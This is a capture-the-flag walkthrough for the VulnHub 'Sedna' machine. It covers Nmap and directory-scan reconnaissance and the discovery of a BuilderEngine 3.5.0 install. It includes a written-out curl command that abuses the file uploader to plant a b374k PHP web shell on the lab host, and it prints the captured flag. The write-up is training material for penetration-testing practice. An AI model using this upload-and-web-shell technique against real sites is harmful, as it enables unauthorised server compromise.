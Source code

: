 # HackFest 2016: Sedna CTF Walkthrough
[VulnHub URL]
## Description:
```
Welcome to Sedna
This is a vulnerable machine i created for the Hackfest 2016 CTF http://hackfest.ca/
Difficulty : Medium
Tips:
There are multiple way to root this box, if it should work but doesn't try to gather more info about why its not working.
Goals: This machine is intended to be doable by someone who have some experience in doing machine on vulnhub
There are 4 flags on this machine One for a shell One for root access Two for doing post exploitation on Sedna
Feedback: This is my second vulnerable machine, please give me feedback on how to improve ! @ViperBlackSkull on Twitter simon.nolet@hotmail.com
Special Thanks to madmantm for testing this virtual machine
SHA-256 : 178306779A86965E0361AA20BA458C71F2C7AEB490F5FD8FAAFAEDAE18E0B0BA
```
## Contents:
	1. Initial scanning & recon.
	2. Exploiting BuilderEngine & shelling the system.
	3. Searching the system for flags.
## Initial scanning & recon
 - Nmap
 - Uniscan (probably best to use Dirb instead)

Nmap:
```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 aa:c3:9e:80:b4:81:15:dd:60:d5:08:ba:3f:e0:af:08 (DSA)
|   2048 41:7f:c2:5d:d5:3a:68:e4:c5:d9:cc:60:06:76:93:a5 (RSA)
|_  256 ef:2d:65:85:f8:3a:85:c2:33:0b:7d:f9:c8:92:22:03 (ECDSA)
53/tcp    open  domain      ISC BIND 9.9.5-3-Ubuntu
| dns-nsid:
|_  bind.version: 9.9.5-3-Ubuntu
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_Hackers
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp   open  pop3        Dovecot pop3d
|_pop3-capabilities: SASL AUTH-RESP-CODE RESP-CODES STLS CAPA TOP PIPELINING UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T19:17:14
|_Not valid after:  2026-10-07T19:17:14
|_ssl-date: TLS randomness does not represent time
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          54863/udp  status
|_  100024  1          57224/tcp  status
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp   open  imap        Dovecot imapd (Ubuntu)
|_imap-capabilities: IDLE more LITERAL+ have LOGIN-REFERRALS LOGINDISABLEDA0001 Pre-login ID capabilities listed OK SASL-IR ENABLE IMAP4rev1 STARTTLS post-login
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T19:17:14
|_Not valid after:  2026-10-07T19:17:14
|_ssl-date: TLS randomness does not represent time
445/tcp   open  netbios-ssn Samba smbd 4.1.6-Ubuntu (workgroup: WORKGROUP)
993/tcp   open  ssl/imap    Dovecot imapd (Ubuntu)
|_imap-capabilities: IDLE AUTH=PLAINA0001 IMAP4rev1 more have LOGIN-REFERRALS ID capabilities listed Pre-login SASL-IR ENABLE OK LITERAL+ post-login
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T19:17:14
|_Not valid after:  2026-10-07T19:17:14
|_ssl-date: TLS randomness does not represent time
995/tcp   open  ssl/pop3    Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) AUTH-RESP-CODE RESP-CODES USER CAPA TOP PIPELINING UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T19:17:14
|_Not valid after:  2026-10-07T19:17:14
|_ssl-date: TLS randomness does not represent time
8080/tcp  open  http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
57224/tcp open  status      1 (RPC #100024)
MAC Address: 08:00:27:DD:47:80 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.6
Network Distance: 1 hop
Service Info: Host: SEDNA; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 59m56s, deviation: 0s, median: 59m56s
|_nbstat: NetBIOS name: SEDNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Unix (Samba 4.1.6-Ubuntu)
|   NetBIOS computer name: SEDNA\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2017-03-27T17:11:37-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server supports SMBv2 protocol
```
Service-wise, this CTF was fairly similar to Quaoar.

However, something on the webserver was very different. 
Seeing as I'd completed these two challenges fairly quickly and in succession, I instantly disregarded the useless index page and the Hackers reference and went straight to /wordpress/; only to be met with a 404 error... 
As it turns out, WordPress is not present on Sedna.

I decided to run Uniscan (once again) to brute directories and give me something to work with, here's the useful output:
```
| Directory check:
| [+] CODE: 200 URL: http://192.168.56.101/blocks/
| [+] CODE: 200 URL: http://192.168.56.101/files/
| [+] CODE: 200 URL: http://192.168.56.101/modules/
| [+] CODE: 200 URL: http://192.168.56.101/system/
| [+] CODE: 200 URL: http://192.168.56.101/themes/

| File check:
| [+] CODE: 200 URL: http://192.168.56.101/index.html
| [+] CODE: 200 URL: http://192.168.56.101/license.txt
| [+] CODE: 200 URL: http://192.168.56.101/robots.txt
```

Looking back over the files Uniscan detected, I noticed that `license.txt` was different from the first challenge. Here's an excerpt from the file:
```
The MIT License (MIT)

Copyright (c) 2012 - 2015 BuilderEngine / Radian Enterprise Systems Limited.
```
BuilderEngine? That sounds promising. And once again, Uniscan had completely trolled me and failed to find `/builderengine/` in the initial scan.

## Exploiting BuilderEngine & shelling the system

So now I have a target, time to search for exploits.
"[BuilderEngine 3.5.0 - Arbitrary File Upload]" looks like the best option, it also shows the directory of the file uploader (which exists!)

So in order to upload files, a POST request needs to be made.

It was time to choose a payload and exploit BuilderEngine's file uploader located at `/themes/dashboard/assets/plugins/jquery-file-upload`.

I took a few minutes to fully understand how I was going to go about this, and decided to use this cURL command:
`curl --proxy http://127.0.0.1:8080 --form "files[]=@pwn.php" http://192.168.56.101/themes/dashboard/assets/plugins/jquery-file-upload/server/php/`

After `pwn.php` (a [b374k shell]) was uploaded, I could simply direct my browser to `/files/pwn.php` and it executes!

## Searching the system for flags

Strangely, I could already access `/root/` on the system...
```
/var/www/>cat flag.txt
bfbb7e6e6e88d9ae66848b9aeac6b289
```


[VulnHub URL]: <https://www.vulnhub.com/entry/hackfest2016-sedna,181/>
[BuilderEngine 3.5.0 - Arbitrary File Upload]: <https://www.exploit-db.com/exploits/40390>
[b374k shell]: <https://github.com/kieran-walker-0/b374k>
